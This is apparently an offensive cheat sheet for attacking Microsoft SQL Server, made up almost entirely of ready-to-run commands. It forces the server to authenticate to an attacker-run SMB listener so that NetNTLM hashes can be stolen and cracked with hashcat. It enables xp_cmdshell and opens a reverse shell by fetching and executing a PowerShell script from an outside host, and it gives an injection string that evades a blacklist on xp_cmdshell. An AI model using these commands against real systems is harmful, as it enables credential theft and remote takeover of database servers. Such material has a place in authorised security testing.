 # Steal NetNTLM Hash

When executing a command on the SQL server which requests resources from the attacker's SMB server, the hash will be captured on that server.

1. Start an **SMB server** to capture hash upon request *(local)*.

```sh
# Responder.py
sudo python3 Responder.py -I tun0  

# impacket-smbserver
sudo impacket-smbserver share ./ -smb2support
```

2. Run one of the following commands *(remote)*.

```sql
xp_dirtree "\\<IP>\any\thing\"
exec master.dbo.xp_dirtree "\\<IP>\anything\"
EXEC master..xp_subdirs "\\<IP>\anything\"
EXEC master..xp_fileexist "\\<IP>\anything\"
```

## Cracking The Hash

```sh
hashcat -m 5600 <hash_file> <wordlist>
```

  

# Command Execution
Note that in order to be able to execute commands it's not only necessary to have **`xp_cmdshell`** **enabled**, but also have the **EXECUTE permission on the `xp_cmdshell` stored procedure**.
## Local


```sql
-- This turns on advanced options and is needed to configure xp_cmdshell
sp_configure 'show advanced options', '1'
RECONFIGURE
-- This enables xp_cmdshell
sp_configure 'xp_cmdshell', '1'
RECONFIGURE

-- Quickly check what the service account is via xp_cmdshell
EXEC master..xp_cmdshell 'whoami'
-- Get Rev shell
EXEC xp_cmdshell 'echo IEX(New-Object Net.WebClient).DownloadString("http:/remote.com:8000/rev.ps1") | powershell -noprofile'

-- Bypass blackisted "EXEC xp_cmdshell"
'; DECLARE @x AS VARCHAR(100)='xp_cmdshell'; EXEC @x 'ping k7s3rpqn8ti91kvy0h44pre35ublza.burpcollaborator.net' —
```
